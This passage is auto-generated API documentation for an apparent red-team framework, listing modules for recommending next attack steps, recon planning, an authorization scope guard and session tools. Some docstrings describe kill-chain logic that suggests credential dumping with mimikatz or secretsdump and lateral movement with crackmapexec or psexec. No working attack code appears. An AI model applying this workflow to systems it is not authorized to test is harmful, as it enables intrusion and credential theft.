- `add` (line 374) `def add(self, source, contribution, proposal)` - *Fold one signal's proposal into the running total.*
- `build` (line 386) `def build(self)` - *Freeze the slot into an immutable :class:`Recommendation`.*

#### `recommendation_signals.py`
**Path:** `cli/recommendation_signals.py`
**File Doc:** *Concrete :class:`cli.recommendation.RecommendationSignal` adapters.  Each adapter wraps one of the framework's pre-existing "what next" brains and translates its native output into the common :class:`cli.recommendation.Proposal` currency so :class:`cli.recommendation.RecommendationEngine` can fuse them. The heavy backends (the graphify index, the policy store, the nmap reader) are imported lazily inside each adapter, which keeps the core engine module free of optional third-party dependencies and lets a missing backend degrade to an empty proposal list instead of an import error.  The :func:`build_default_engine` factory wires the four deterministic signals in priority order and is the single entry point every consumer (the ``recommend_next`` CLI verb, the inline push hints, the MCP tool) should call.*

**Classes:**
- `GraphSignal` (line 110) `class GraphSignal` - *Adapt :meth:`cli.graph_advisor.GraphAdvisor.suggest_next` into proposals.*
- `PolicySignal` (line 148) `class PolicySignal` - *Adapt the learned transition policy into kill-chain category priors.*
- `ReconPlanSignal` (line 185) `class ReconPlanSignal` - *Adapt the nmap trigger-matched recon plan into concrete proposals.*
- `KillChainSignal` (line 224) `class KillChainSignal` - *Adapt the static kill-chain adjacency tables into concrete proposals.*
- `PlaybookSignal` (line 337) `class PlaybookSignal` - *Adapt APT playbook suggestions into concrete proposals.

When nmap services match a known playbook profile (APT group, attack
surface pattern), this signal suggests relevant playbook commands.*
- `KillchainGapSignal` (line 386) `class KillchainGapSignal` - *Detect missing steps in the kill chain from world model and session state.

Inspects ``sessions/world_model.json`` host states and session artefacts
to identify gaps where the operator has not progressed. Each detected gap
produces a high-confidence :class:`Proposal` for the most impactful next
action.

Gap detection rules (ordered by priority):
    - Host in EXPLOITED state without privesc output: recommend
      linpeas/winpeas.
    - Host in OWNED state without credential dump: recommend
      mimikatz/secretsdump/lazydump.
    - Scan XML exists but no enumeration: recommend gobuster/ffuf/enum4linux.
    - Credentials exist but no lateral movement: recommend
      crackmapexec/psexec.*
- `GraphTopologySignal` (line 531) `class GraphTopologySignal` - *Adapt WorldModel network graph pivot_candidates into lateral movement proposals.

Reads the degree-centrality pivot candidates computed by the WorldModel's
NetworkGraph and emits high-confidence proposals for lateral movement,
credential spraying, and network topology exploration — data that was
previously computed but never consumed by the recommendation engine.*

**Functions:**
- `_load_world_model` (line 67) `def _load_world_model(sessions_dir)` - *Read ``world_model.json`` from ``sessions_dir``, or ``None``.

Shared by every signal that inspects world-model state. Returns
``None`` when the file is missing or malformed so signals degrade to
an empty proposal list instead of raising.

Args:
    sessions_dir: Directory containing ``world_model.json``.

Returns:
    The parsed mapping, or ``None`` when unavailable.*
- `_rank_weight` (line 90) `def _rank_weight(index, total)` - *Map a zero-based rank to a descending weight in ``(_RANK_FLOOR, 1]``.

Signals whose backend emits an ordered list without numeric scores (the
recon plan, the static kill-chain tables) use this so a stable, position-based
importance feeds the engine's per-signal normalisation.

Args:
    index: Zero-based position in the ordered list.
    total: Length of the ordered list.

Returns:
    ``1.0`` for the first item, decaying linearly to ``_RANK_FLOOR``.*
- `read_recent_commands` (line 275) `def read_recent_commands(sessions_dir, window)` - *Return the last ``window`` command verbs from the session transcript.

Args:
    sessions_dir: Path to the ``sessions/`` directory.
    window: Maximum number of trailing verbs to return.

Returns:
    Ordered command verbs, most recent last. Empty when the transcript is
    absent or unreadable.*
- `build_context` (line 308) `def build_context(payload, sessions_dir, target, limit)` - *Assemble a :class:`RecommendationContext` from live engagement state.

Args:
    payload: ``payload.json`` mapping.
    sessions_dir: Path to ``sessions/`` for transcript reads.
    target: Explicit target. Falls back to ``payload['rhost']``.
    limit: Maximum recommendations the caller wants.

Returns:
    A populated context shared by every signal.*
- `_try_build_playbook_signal` (line 638) `def _try_build_playbook_signal()` - *Build a :class:`PlaybookSignal` when the APT playbook engine imports.*
- `build_default_engine` (line 649) `def build_default_engine(payload, sessions_dir, graph_path, command_index_path, weights)` - *Wire every available deterministic signal into one engine.

Signals whose backend cannot be imported or constructed are skipped silently
so the returned engine always works with whatever is present. The kill-chain
signal is unconditional because its tables ship with the framework.

Args:
    payload: ``payload.json`` mapping used to resolve the victim OS for the
        recon-plan signal.
    sessions_dir: Path to ``sessions/`` (currently informational; the
        collaborators resolve their own paths).
    graph_path: Optional explicit graphify graph path.
    command_index_path: Path to ``command_index.json`` for category priors.
    weights: Optional fusion-weight override.

Returns:
    A ready :class:`RecommendationEngine`.*
- `recommend_with_evidence` (line 705) `def recommend_with_evidence(payload, sessions_dir, target, phase, limit, engine)` - *Return fused, ranked recommendations carrying reason and score for display.

Thin convenience over :func:`build_default_engine` and :func:`build_context`
for the evidence-backed inline hints. An already-built ``engine`` may be
injected so a caller on a hot path (the post-command hook) constructs the
engine once and reuses it across commands instead of rebuilding every step.

Args:
    payload: ``payload.json`` mapping used to resolve OS and target.
    sessions_dir: Path to ``sessions/`` for transcript and world-model reads.
    target: Explicit target; falls back to ``payload['rhost']``.
    phase: Caller-resolved kill-chain phase. When non-empty it overrides the
        phase :func:`build_context` derives from the payload, letting the
        hint reuse the shell's authoritative :class:`modules.killchain.KillChain`
        resolution.
    limit: Maximum number of recommendations to return.
    engine: Optional pre-built engine to reuse.

Returns:
    Up to ``limit`` :class:`cli.recommendation.Recommendation` objects,
    best first. Empty when no signal produces a proposal.*
- `_try_build_graph_signal` (line 742) `def _try_build_graph_signal(graph_path)` - *Build a :class:`GraphSignal` when the graphify index is loadable.*
- `_try_build_policy_signal` (line 756) `def _try_build_policy_signal()` - *Build a :class:`PolicySignal` when the policy engine imports cleanly.*
- `_try_build_recon_signal` (line 772) `def _try_build_recon_signal(payload)` - *Build a :class:`ReconPlanSignal` when the exploration stack imports.*
- `_build_killchain_signal` (line 785) `def _build_killchain_signal()` - *Build the unconditional static-table :class:`KillChainSignal`.*

**Methods:**
- `__init__` (line 115) `def __init__(self, advisor)` - *Store the graph advisor facade.

Args:
    advisor: Any object exposing ``suggest_next(recent_commands, limit)``
        and returning summary dicts carrying ``label``/``id`` and
        ``score`` keys.*
- `propose` (line 125) `def propose(self, ctx)` - *Return graph-adjacent command proposals for ``ctx``.*
- `__init__` (line 153) `def __init__(self, policy)` - *Store the policy integration facade.

Args:
    policy: Object exposing ``get_recommendations(target)`` returning
        dicts with ``category``, ``confidence`` and ``reason`` keys.*
- `propose` (line 162) `def propose(self, ctx)` - *Return category-prior proposals for ``ctx``.*
- `__init__` (line 190) `def __init__(self, engine, builder)` - *Store the exploration engine and the plan builder callable.

Args:
    engine: A configured ``cli.exploration.ExplorationEngine``.
    builder: The ``cli.recon_plan.build_recon_plan`` callable.*
- `propose` (line 200) `def propose(self, ctx)` - *Return trigger-matched addon/tool/command proposals for ``ctx``.*
- `__init__` (line 229) `def __init__(self, next_table, phase_table)` - *Store the adjacency and phase-priority tables.

Args:
    next_table: Map of command verb to its sensible follow-ups.
    phase_table: Map of kill-chain phase to its priority verbs.*
- `propose` (line 243) `def propose(self, ctx)` - *Return adjacency- and phase-derived proposals for ``ctx``.*
- `__init__` (line 346) `def __init__(self, playbook_engine)` - *Store an optional playbook engine facade.

Args:
    playbook_engine: Object exposing ``list_playbooks()`` returning
        a list of playbook summary dicts.*
- `propose` (line 355) `def propose(self, ctx)` - *Return playbook-based proposals for the current context.*
- `__init__` (line 406) `def __init__(self, sessions_dir)`
- `propose` (line 409) `def propose(self, ctx)` - *Return gap-detection proposals for ``ctx``.*
- `_gap_exploited_no_privesc` (line 425) `def _gap_exploited_no_privesc(self, hosts)`
- `_gap_owned_no_creds` (line 465) `def _gap_owned_no_creds(self, hosts, wm_data)`
- `_gap_scan_no_enum` (line 485) `def _gap_scan_no_enum(self, hosts, recent)`
- `_gap_creds_no_lateral` (line 507) `def _gap_creds_no_lateral(self, wm_data, hosts)`
- `__init__` (line 542) `def __init__(self, sessions_dir)`
- `propose` (line 545) `def propose(self, ctx)` - *Return lateral movement and topology proposals from network graph.*
- `_compute_centrality` (line 603) `def _compute_centrality(graph_data)`

#### `recon_plan.py`
**Path:** `cli/recon_plan.py`
**File Doc:** *Reconnaissance plan generator built on top of :mod:`cli.exploration`.  After ``do_lazynmap`` finishes scanning a target the operator is left with a raw XML in ``sessions/`` and no immediate guidance about which addon, ``.tool`` or CLI verb to invoke next. This module bridges that gap by composing the trigger-matched outputs already produced by :class:`cli.exploration.ExplorationEngine` (addons + tools) with the phase-aware ``cli/command_index.json`` into a single, persisted plan.  The module is pure: it does no shell I/O, holds no global state and never imports ``cmd2``, ``rich`` or ``lazyown.py``. The CLI integration lives in ``do_lazynmap`` / ``do_recommend_next`` which call :func:`build_recon_plan`, then optionally pipe the result through :func:`render_markdown` (operator + LLM consumption) or :func:`render_rich` (terminal preview).  Design constraints honoured:  * Single Responsibility: every helper does exactly one thing. * Open / Closed: new item kinds extend :class:`ReconPlanItem` without touching the renderer. * Liskov / Interface Segregation: the engine collaborator only needs to satisfy the ``unexplored_addons`` / ``unexplored_tools`` / ``services`` / ``history`` contract already provided by :class:`cli.exploration.ExplorationEngine`. * Dependency Inversion: file I/O, command-index loading and time are all injected so the suite never touches the real ``sessions/`` tree. * No magic numbers / hardcoded paths: every default lives in :class:`ReconPlanConfig`. * Sessions ``write_plan`` is atomic (``*.tmp`` then ``os.replace``) with*

**Classes:**
- `ReconPlanConfig` (line 62) `class ReconPlanConfig` - *Immutable defaults for plan generation, rendering and persistence.*
- `ReconPlanItem` (line 94) `class ReconPlanItem` - *One actionable suggestion in a :class:`ReconPlan`.

Attributes:
    kind: One of ``addon``, ``tool``, ``command``, ``note``.
    name: Identifier of the addon, tool or CLI verb.
    service: ``service:port/proto`` label that triggered the item, or
        an empty string for phase-priority command suggestions.
    trigger_match: Comma-separated trigger keywords that matched.
    command_preview: Best-effort copy-paste command shown to the
        operator. Empty when the item is a CLI verb the operator
        invokes directly.
    reason: One-line justification (English, no emoji) explaining
        why the item is in the plan.*
- `ReconPlan` (line 119) `class ReconPlan` - *Snapshot of a target's next-step plan.

Attributes:
    target: Host or hostname the plan was built for.
    platform: Resolved victim OS used to filter items.
    phase: Kill-chain phase the command suggestions came from.
    services: Discovered services that fed the trigger matching.
    items: Ordered actionable suggestions.
    generated_at: Epoch seconds when the plan was assembled.*

**Functions:**
- `build_recon_plan` (line 144) `def build_recon_plan(target, engine, payload, config, command_index_loader, clock)` - *Assemble a :class:`ReconPlan` for ``target`` using ``engine``.

Args:
    target: Host the plan is for. ``None`` lets the engine fall back
        to the most recent scan in ``sessions/``.
    engine: An :class:`ExplorationEngine` already configured with the
        current victim OS.
    payload: Optional ``payload.json`` mapping. Used to resolve the
        active phase and substitute ``{ip}`` / ``{domain}`` /
        ``{username}`` / ``{password}`` placeholders in the
        previewed commands.
    config: Optional :class:`ReconPlanConfig` override.
    command_index_loader: Injected loader for ``cli/command_index.json``.
        Defaults to a stdlib-only reader. Returning ``None`` skips
        the command-suggestions layer cleanly.
    clock: Zero-arg callable returning the current epoch seconds.
        Defaults to :func:`time.time`.

Returns:
    A populated :class:`ReconPlan`. The result is empty (``is_empty``
    true) when no nmap scan has been performed yet.*
- `render_markdown` (line 207) `def render_markdown(plan)` - *Render ``plan`` as a Markdown document suitable for sessions/.

The output is intentionally small (no embedded HTML, no nested
formatting) so both the operator and downstream LLM agents can parse
it deterministically.*
- `write_plan` (line 257) `def write_plan(plan, sessions_dir, config)` - *Persist ``plan`` to ``sessions/recon_plan_<target>.md`` atomically.

Args:
    plan: Plan to persist.
    sessions_dir: Override for the sessions directory. Defaults to
        ``config.sessions_dir`` resolved against the current working
        directory.
    config: Optional :class:`ReconPlanConfig` override.

Returns:
    The absolute :class:`Path` of the written plan file.*
- `render_rich` (line 299) `def render_rich(plan, console)` - *Render ``plan`` to the supplied Rich console.

The console is duck-typed; only ``print`` is required so callers can
inject any object implementing the same interface in tests.*
- `_addon_items` (line 330) `def _addon_items(addons, services, payload)`
- `_tool_items` (line 347) `def _tool_items(tools, services, payload)`
- `_command_items` (line 367) `def _command_items(index, phase, history, limit)`
- `_service_for_trigger` (line 414) `def _service_for_trigger(trigger, services)`
- `_tool_command_preview` (line 428) `def _tool_command_preview(tool, payload)`
- `_read_tool_command` (line 449) `def _read_tool_command(source_path)`
- `_payload_target` (line 466) `def _payload_target(payload, config)`
- `_resolve_phase` (line 474) `def _resolve_phase(payload, config)`
- `_safe_filename_component` (line 486) `def _safe_filename_component(value)`
- `_default_command_index_loader` (line 494) `def _default_command_index_loader(path)`

**Methods:**
- `is_empty` (line 139) `def is_empty(self)` - *Return ``True`` when the plan carries no actionable items.*

#### `registry.py`
**Path:** `cli/registry.py`
**File Doc:** *``cmd2.CommandSet`` discovery and registration for ``cli.commands``.  Tier 2 introduces ``cli.commands.*`` modules where each module exposes one or more ``CommandSet`` subclasses scoped to a kill-chain phase (recon, enum, exploit, ...). This module discovers those CommandSets and registers them on a live :class:`cmd2.Cmd` instance.  The point: ``lazyown.py`` does not import every phase module — it calls :func:`register_command_sets(self)` at startup and the plumbing happens declaratively. Adding a new phase is a single new file under ``cli/commands/`` plus a ``CommandSet`` subclass.  Migration coexistence ---------------------  During the staged migration the legacy ``LazyOwnShell`` still owns most ``do_*`` methods. The replacement phase modules subclass :class:`cli.commands._dormancy.PendingCommandSet` so they are discovered (and therefore testable) without colliding with the originals on the shell. :func:`register_command_sets` skips them; once a phase is fully moved out of ``lazyown.py`` its set swaps its base class to :class:`cli.commands._base.LazyOwnCommandSet` and joins the active registry on the next shell start.*

**Functions:**
- `iter_command_sets` (line 41) `def iter_command_sets(include_pending)` - *Yield every ``CommandSet`` subclass found under ``cli.commands.*``.

Each module under ``cli.commands`` is imported and scanned for classes
that subclass ``cmd2.CommandSet``. Modules whose leaf name begins with
an underscore (``_base``, ``_dormancy``) are skipped because they hold
shared scaffolding rather than concrete command sets.

Args:
    include_pending: When ``True`` (default) pending sets are yielded
        so tests can validate their structure. When ``False`` the
        iterator filters them out — used by :func:`register_command_sets`
        to avoid collisions with the legacy shell.

Yields:
    Each concrete ``CommandSet`` subclass declared in a discovered
    module.*
- `register_command_sets` (line 77) `def register_command_sets(shell)` - *Instantiate and register every active ``CommandSet`` on ``shell``.

Pending sets (subclasses of
:class:`cli.commands._dormancy.PendingCommandSet`) are skipped so they
can coexist with the legacy ``do_*`` methods on ``LazyOwnShell``
during the incremental migration.

Args:
    shell: A live :class:`cmd2.Cmd` instance (typically
        ``LazyOwnShell``).

Returns:
    The list of ``CommandSet`` instances that were successfully
    registered. Errors during registration of an individual set are
    reported via the shell's ``perror`` (or :func:`print` as a
    fallback) and skipped — one failing set must not prevent the
    shell from booting.*

#### `scope_guard.py`
**Path:** `cli/scope_guard.py`
**File Doc:** *Authorization scope guard for offensive command execution.  A red-team framework that reads its target from ``payload.json`` has a sharp edge: if the operator leaves ``rhost`` pointing at the wrong machine, every offensive command fires at an unauthorized host. That is an engagement incident, not a cosmetic bug. This module is the safety net.  The guard answers a single question before a command runs: *is the active target inside the authorized engagement scope for this (potentially offensive) command?* It is deliberately conservative and fail-open so it never breaks an existing workflow:  * When the enforcement mode is ``off`` it is a no-op. * When no scope is configured it allows everything (you cannot enforce a scope that was never defined), so operators who never touch the feature see no change at all. * When the command is not classified as offensive (reporting, configuration, local helpers) it allows it. * When the target is empty it allows it (nothing to check).  Only when an *offensive* command targets a host *outside* a *defined* scope does the guard react, and even then ``warn`` mode merely annotates the decision while ``enforce`` mode blocks pending operator confirmation.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion); the shell depends on this module, never the reverse. - The offensive/benign classification is pure data (:data:`OFFENSIVE_CATEGORIES`) plus a pure function (:func:`build_offensive_commands`), so it is unit-testable without a live*

**Classes:**
- `ScopeMode` (line 90) `class ScopeMode(StrEnum)` - *Enforcement posture for the scope guard.

Attributes:
    OFF: The guard is disabled and always allows.
    WARN: Out-of-scope offensive commands are allowed but annotated.
    ENFORCE: Out-of-scope offensive commands are blocked pending
        confirmation.*
- `ScopeDecision` (line 125) `class ScopeDecision` - *Outcome of a single scope evaluation.

Attributes:
    allowed: Whether the command may proceed without confirmation.
    needs_confirmation: Whether the caller must obtain explicit operator
        confirmation before proceeding (only set in ``enforce`` mode).
    reason: Human-readable explanation, empty when the command is allowed
        for an uninteresting reason (mode off, no scope, benign command).
    target: The target the decision was made against.
    command: The command the decision was made against.
    mode: The enforcement mode in effect when the decision was made.*
- `ScopeGuard` (line 254) `class ScopeGuard` - *Decides whether an offensive command may run against the active target.

The guard is cheap to construct and holds no mutable state, so the shell
can build a fresh instance per command with the current payload values;
this guarantees mid-session changes to the scope or the enforcement mode
take effect immediately.*

**Functions:**
- `build_offensive_commands` (line 147) `def build_offensive_commands(command_categories)` - *Select the command names whose category is offensive.

Args:
    command_categories: Mapping of command name to its cmd2 help category
        (or ``None`` for uncategorised commands).

Returns:
    The frozenset of command names that belong to
    :data:`OFFENSIVE_CATEGORIES`.*
- `normalize_scope` (line 163) `def normalize_scope(entries)` - *Coerce a scope specification into a tuple of entry strings.

Accepts the canonical list form stored in ``payload.json`` as well as the
string forms an operator might produce via ``assign`` (a JSON array, or a
comma/space separated list), so the guard is robust to either source.

Args:
    entries: A list/tuple/set of entries, a string, or ``None``.

Returns:
    A tuple of non-empty, stripped entry strings.*
- `_parse_ip` (line 195) `def _parse_ip(value)`
- `_parse_network` (line 202) `def _parse_network(value)`
- `_hostname_match` (line 209) `def _hostname_match(target, entry)`
- `target_in_scope` (line 218) `def target_in_scope(target, entries)` - *Return whether *target* falls within any of the scope *entries*.

IP targets are matched against CIDR networks and bare IP entries; hostname
targets are matched against hostname entries (supporting a leading ``*.``
wildcard for subdomains). Cross-kind comparisons (IP target vs hostname
entry, or vice versa) never match because resolving them would require DNS,
which the guard deliberately avoids.

Args:
    target: The active target (IP address or hostname).
    entries: Authorized scope entries.

Returns:
    ``True`` when the target is authorized by at least one entry.*

**Methods:**
- `from_value` (line 105) `def from_value(cls, value)` - *Coerce an arbitrary payload value into a :class:`ScopeMode`.

Args:
    value: A :class:`ScopeMode`, a mode string, or anything else.

Returns:
    The matching mode, defaulting to :attr:`WARN` for unknown input so
    a typo never silently disables the guard.*
- `__init__` (line 263) `def __init__(self, scope_entries, mode, is_offensive)` - *Initialise the guard.

Args:
    scope_entries: The authorized scope, in any form accepted by
        :func:`normalize_scope`.
    mode: The enforcement mode, in any form accepted by
        :meth:`ScopeMode.from_value`.
    is_offensive: Predicate returning ``True`` when a command name is
        offensive. Injected so the guard never imports the shell.*
- `evaluate` (line 283) `def evaluate(self, command, target)` - *Evaluate a single command against the active target.

Args:
    command: The command name about to run.
    target: The active target (``rhost``).

Returns:
    A :class:`ScopeDecision`. The guard fails open: any classification
    error is treated as benign so a bug here never blocks the operator.*

#### `session_hud.py`
**Path:** `cli/session_hud.py`
**File Doc:** *Compact session HUD: the numbers no other command shows.  ``killchain`` already owns the kill-chain view and does it better, with per-phase percentages. ``sitrep`` owns the full operational picture. This module covers only the gap: how long the session has run, how many commands it has executed, and how much material it has captured.  Every figure comes from a source that actually exists on disk. Credential and note counts use the same globs as the dashboard (``credentials*.txt``, ``notes*.txt``); the command count and the session clock come from the engagement state, which is the only component that knows when the session started.*

**Classes:**
- `HudConfig` (line 25) `class HudConfig` - *Centralized knobs for HUD data sources.*
- `HudSnapshot` (line 50) `class HudSnapshot` - *Point-in-time values displayed by the HUD.*

**Functions:**
- `count_lines_in_globs` (line 62) `def count_lines_in_globs(root, patterns)` - *Count non-empty lines across every file matching the patterns.

Args:
    root: Directory holding the session artefacts.
    patterns: Glob patterns relative to ``root``.

Returns:
    Total non-empty line count, zero when nothing matches.*
- `count_csv_rows` (line 83) `def count_csv_rows(path)` - *Count data rows in a CSV file without loading it fully.

Args:
    path: CSV file path.

Returns:
    Number of data rows, zero when missing or unreadable.*
- `format_elapsed` (line 100) `def format_elapsed(seconds)` - *Format a duration as HH:MM:SS.

Args:
    seconds: Duration in seconds.

Returns:
    Zero-padded clock string.*
- `phase_bar` (line 115) `def phase_bar(phase, width)` - *Render kill-chain progress as filled and empty blocks.

Args:
    phase: Current phase name.
    width: Bar width in characters.

Returns:
    String such as [###-------] exploit.*
- `_engagement_facts` (line 135) `def _engagement_facts()` - *Read session command count, total count and session start time.

Returns:
    Tuple of (session_commands, total_commands, elapsed_seconds).
    Zeros when the engagement state is unavailable.*
- `build_snapshot` (line 155) `def build_snapshot(params, config)` - *Build a snapshot from live params, engagement state and session files.

Args:
    params: Live payload mapping with rhost and phase keys.
    config: HUD configuration.

Returns:
    Populated HudSnapshot with every figure read from a real source.*
- `render_snapshot` (line 180) `def render_snapshot(snapshot, config)` - *Render the session counters as two plain lines.

No kill-chain bar: ``killchain`` renders phases with per-phase
percentages and duplicating a worse version of it here only confused
the operator. Level markers are omitted too, because the shell
printers in ``core.console`` already emit one per line.

Args:
    snapshot: Values to display.
    config: HUD configuration.

Returns:
    List of plain lines, one per HUD row.*

#### `session_resumer.py`
**Path:** `cli/session_resumer.py`
**File Doc:** *Session resumer for the LazyOwn shell.  Scans ``sessions/`` for previous engagement data (IP directories, scan files, credentials) and presents a resume panel at shell startup so the operator can quickly pick up where they left off.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``SessionResumer`` receives a sessions dir path; no hardcoded paths.*

**Classes:**
- `SessionSummary` (line 29) `class SessionSummary` - *One previous engagement discovered in sessions/.*
- `SessionResumerConfig` (line 41) `class SessionResumerConfig` - *Centralised constants for the session resumer.*
- `SessionResumer` (line 51) `class SessionResumer` - *Scan sessions/ and present a resume panel.

Args:
    config: Optional config override.*

**Methods:**
- `__init__` (line 58) `def __init__(self, config)`
- `_discover_targets` (line 62) `def _discover_targets(self)` - *Discover IP-named subdirectories and top-level scan files.*
- `render_startup_panel` (line 129) `def render_startup_panel(self)` - *Render the resume panel and return the selected target IP, or None.*

#### `sessions_browser.py`
**Path:** `cli/sessions_browser.py`
**File Doc:** *Textual browser for the LazyOwn ``sessions/`` directory.  The browser turns ``sessions/`` into a navigable surface so the operator no longer needs to leave the shell to inspect credentials, hashes, vulns, notes, or raw nmap output. Files are categorised, listed in a left pane, and previewed in a right pane with bounded reads to keep the TUI responsive on multi-megabyte transcripts.  Design (SOLID):  - Single Responsibility: :class:`SessionsBrowserConfig` owns constants, :class:`SessionEntry` is the immutable record, :class:`SessionsIndex` classifies files, :class:`SessionPreview` returns bounded text, and :class:`SessionsBrowserApp` renders. - Open/Closed: a new category is one entry in :attr:`SessionsBrowserConfig.categories`. - Dependency Inversion: the app is always constructed from a state object so tests exercise the data layer without Textual. - No magic numbers / hardcoded paths: every value lives in the config.*

**Classes:**
- `CategorySpec` (line 33) `class CategorySpec` - *One row in :attr:`SessionsBrowserConfig.categories`.

Attributes:
    identifier: Stable lowercase identifier (``creds``, ``hashes``...).
    label: Human-readable header rendered in the tree.
    patterns: Glob expressions evaluated relative to the sessions
        root. The first matching pattern wins.*
- `SessionsBrowserConfig` (line 49) `class SessionsBrowserConfig` - *Centralised constants for the browser.*
- `SessionEntry` (line 76) `class SessionEntry` - *Immutable description of a single file under ``sessions/``.*
- `SessionsIndex` (line 85) `class SessionsIndex` - *Classify files under the sessions root into operator-relevant buckets.*
- `SessionPreview` (line 185) `class SessionPreview` - *Bounded text reader for the preview pane.*
- `SessionsBrowserState` (line 225) `class SessionsBrowserState` - *Top-level state passed to the Textual app and to tests.*
- `_SessionsBrowserApp` (line 325) `class _SessionsBrowserApp(App)`

**Functions:**
- `build_state` (line 258) `def build_state(payload, sessions_dir, config)` - *Wire the canonical state used by :func:`launch_browser`.

Args:
    payload: Loaded ``payload.json``. Currently unused beyond
        theme propagation but accepted for forward compatibility.
    sessions_dir: Optional override for the sessions root.
    config: Optional explicit :class:`SessionsBrowserConfig`.

Returns:
    A fresh :class:`SessionsBrowserState`.*
- `launch_browser` (line 281) `def launch_browser(payload, state, runner)` - *Open the Textual browser and return the last-viewed relative path.

Args:
    payload: Loaded ``payload.json``.
    state: Optional pre-built state (tests inject one).
    runner: Optional callable used by tests instead of running the
        real Textual app.

Returns:
    The relative path of the last file the operator inspected, or
    ``None`` when the browser was cancelled or Textual is missing.*
- `_build_app` (line 314) `def _build_app(state, theme)`

**Methods:**
- `__init__` (line 88) `def __init__(self, config, root)` - *Bind to config and resolve the sessions root.

Args:
    config: Active configuration.
    root: Optional explicit root override; defaults to
        ``Path(config.sessions_dir)``.*
- `root` (line 100) `def root(self)` - *Return the resolved sessions root.*
- `categories` (line 104) `def categories(self)` - *Return a mapping ``category_identifier -> [SessionEntry, ...]``.*
- `_entries_for` (line 119) `def _entries_for(self, patterns, spec)`
- `_collect_other` (line 142) `def _collect_other(self, claimed)`
- `_build_entry` (line 160) `def _build_entry(self, path, relative, category)`
- `_label` (line 172) `def _label(self, relative)`
- `_relative` (line 178) `def _relative(self, path)`
- `__init__` (line 188) `def __init__(self, config, root)` - *Bind to config and the sessions root.*
- `read` (line 193) `def read(self, relative)` - *Return ``relative`` as text, capped at ``max_preview_bytes``.

Args:
    relative: Path fragment under the sessions root. ``..`` and
        absolute paths are rejected.

Returns:
    UTF-8 decoded text. Files that appear binary (more than
    ``binary_byte_threshold`` NUL bytes in the head) return the
    configured binary indicator instead of garbled output.*
- `grouped_entries` (line 233) `def grouped_entries(self)` - *Return classified entries, optionally filtered by :attr:`filter_query`.*
- `category_label` (line 248) `def category_label(self, identifier)` - *Return the human-readable label for ``identifier``.*
- `__init__` (line 340) `def __init__(self)`
- `compose` (line 346) `def compose(self)`
- `on_mount` (line 356) `def on_mount(self)`
- `on_input_changed` (line 359) `def on_input_changed(self, event)`
- `on_tree_node_selected` (line 363) `def on_tree_node_selected(self, event)`
- `action_refresh` (line 370) `def action_refresh(self)`
- `action_close` (line 373) `def action_close(self)`
- `_rebuild_tree` (line 376) `def _rebuild_tree(self)`
- `_show_preview` (line 399) `def _show_preview(self, relative)`

#### `show.py`
**Path:** `cli/show.py`
**File Doc:** *Pretty-print the live payload for the operator.  Tier 2.5 replaces ``do_show``'s unordered, unaligned dump with a stable, deterministic rendering. Output is plain text (no ANSI) so the formatter is easy to test and reusable for logs, reports or the dashboard.*

**Functions:**
- `format_payload` (line 14) `def format_payload(params)` - *Render ``params`` as a sorted, aligned ``key = value`` block.

Args:
    params: Payload dict.
    keys: Optional whitelist; when given, only those keys are rendered
        (in the same alphabetical order). Missing keys render as empty
        strings, matching the alias loader's behaviour.

Returns:
    A multi-line string. Each line is ``"<key padded>  <value>"``. The
    column width is computed from the rendered key set so output stays
    aligned regardless of which keys are present.*

#### `splash.py`
**Path:** `cli/splash.py`
**File Doc:** *Animated splash overlay for the LazyOwn first-run experience.  The splash is rendered with Rich on top of the existing ASCII art banner. Operators keep their original art: this overlay just paints a typewriter effect around it during the first 1-2 seconds of startup, then exits cleanly back to the cmd2 prompt. Opt-in via ``payload.json[\"splash\"] = true`` (default false), and auto-on when ``payload.json`` does not yet exist.  Design notes:  - Single Responsibility: only the overlay animation lives here. No payload reading, no shell state, no theme mutation. Callers pass the already-resolved theme tokens. - Open/Closed: new animation kinds (e.g. glitch, fade) extend :class:`SplashEffect`; the dispatcher in :func:`render_splash` does not change. - Dependency Inversion: callers depend on :func:`render_splash` and the :class:`SplashEffect` protocol, not on Rich directly. - No magic numbers: timing constants live in :data:`SPLASH_CONFIG`.*

**Classes:**
- `SplashConfig` (line 37) `class SplashConfig` - *Timing and behaviour knobs for the splash overlay.

Attributes:
    total_seconds: How long the overlay stays on screen. ``0``
        or negative means render-and-exit immediately. The
        effect never blocks longer than this regardless of the
        typewriter per-character delay.
    per_char_seconds: Delay between consecutive characters in
        the typewriter effect. Lower values feel snappier.
    clear_after: Whether to clear the overlay before returning
        to the caller. When ``False`` the operator sees the
        splash frozen at its final state -- useful for
        screencasts but disruptive in a real shell.*
- `SplashEffect` (line 62) `class SplashEffect(Protocol)` - *Strategy protocol for splash animations.

A new effect implements ``render`` and is registered in
:func:`render_splash` dispatch. The effect owns its own
progress and timing -- the dispatcher only hands it the
console, the lines to animate, and the resolved tokens.*
- `TypewriterEffect` (line 80) `class TypewriterEffect` - *Print each character of each line with a fixed delay.

A blinking caret is appended to the active line so the
operator sees the typewriter working. The caret is removed
before the function returns. The accumulated prefix is
redrawn on every step so the operator sees the line growing
left-to-right, not single characters flickering.*
- `InstantEffect` (line 141) `class InstantEffect` - *Print every line at once with no animation. Used in tests.

The effect renders and returns immediately so unit tests do
not have to mock :func:`time.sleep`. ``render_splash`` picks
this effect whenever ``config.total_seconds <= 0`` or the
caller asks for it explicitly.*

**Functions:**
- `_redraw` (line 119) `def _redraw(console, accumulated, caret, tokens)` - *Rewrite the current line with ``accumulated`` plus optional caret.

Args:
    console: Rich console the typewriter writes through.
    accumulated: Text built so far for the current line.
    caret: Whether to append a blinking block character to
        signal ongoing typing.
    tokens: Resolved theme tokens. The caret picks up the
        ``muted`` style.*
- `render_splash` (line 166) `def render_splash(console, lines, payload, config, effect_name)` - *Render the splash overlay and optionally clear the screen.

Args:
    console: Rich console the shell already uses. The overlay
        writes through it so colours and terminal width match
        the rest of the operator surface.
    lines: Lines to animate. Each entry is a plain string --
        markup is intentionally NOT parsed, so the operator's
        ASCII art (which often contains brackets) renders
        verbatim.
    payload: Payload mapping for theme resolution. ``None``
        uses the default theme; passing the live payload
        honours the operator's chosen ``tui_theme``.
    config: Override timing/clear behaviour. ``None`` uses
        :data:`SPLASH_CONFIG`.
    effect_name: Which effect to dispatch. ``"typewriter"``
        or ``"instant"``. Unknown values fall back to
        ``"instant"`` so a bad config never crashes startup.

Returns:
    None. The console is left in a state ready for the next
    prompt line to be printed (or cleared, depending on
    ``config.clear_after``).*

**Methods:**
